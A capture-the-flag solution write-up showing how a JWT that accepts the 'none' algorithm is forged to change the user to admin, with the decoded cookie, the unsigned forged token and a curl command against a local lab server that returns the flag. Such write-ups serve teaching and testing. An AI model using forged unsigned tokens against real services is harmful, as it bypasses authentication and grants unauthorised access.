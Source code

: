 # Solution

This challenge demonstrates a well known JWT issue where a server can accept a `none` algorithm for the signing of the JWT.

This allows an attacker to decode the JWT and modify the contents of the data section.

In this instance we want to change the value `user` attribute of the encoded JSON data to admin.

We utilise cyberchef for this.

The decoded data obtained from the `auth` cookie is:
```json
{
    "user": "hackymacky",
    "iat": 1599106161
}
```
**[CyberChef Decode Link](https://gchq.github.io/CyberChef/#recipe=JWT_Decode()&input=ZXlKaGJHY2lPaUpJVXpJMU5pSXNJblI1Y0NJNklrcFhWQ0o5LmV5SjFjMlZ5SWpvaWFHRmphM2x0WVdOcmVTSXNJbWxoZENJNk1UVTVPVEV3TmpFMk1YMC50WnhhQVIwbnpGWGtLdlpNMDE2RHFCbThDaFVWUjdrOW92aVd1T01xaFVz)**

Then we reencode the following data using CyberChefs JWT Sign function with the signing algorithm set to none.
This gives us the following output to replace our `auth` cookie with.
Note that the last portion of the JWT, seperated by `.` does not contain any text, because there is no signature.

```
eyJhbGciOiJub25lIiwidHlwIjoiSldUIn0.eyJ1c2VyIjoiYWRtaW4iLCJpYXQiOjE1OTkxMDYxNjF9.
```
**[CyberChef Sign Link](https://gchq.github.io/CyberChef/#recipe=JWT_Sign('secret','None')&input=ewogICAgInVzZXIiOiAiYWRtaW4iLAogICAgImlhdCI6IDE1OTkxMDYxNjEKfQ)**

We can then send this back to the server with another get request to `/` with our new `auth` cookie to get the flag.
```bash
curl localhost:3000 -H "Cookie: auth=eyJhbGciOiJub25lIiwidHlwIjoiSldUIn0.eyJ1c2VyIjoiYWRtaW4iLCJpYXQiOjE1OTkxMDYxNjF9."
<h1>Hello admin! Here is your flag</h1><br><h2>hackmac{no_you_cant_have_my_autograph}</h2>
```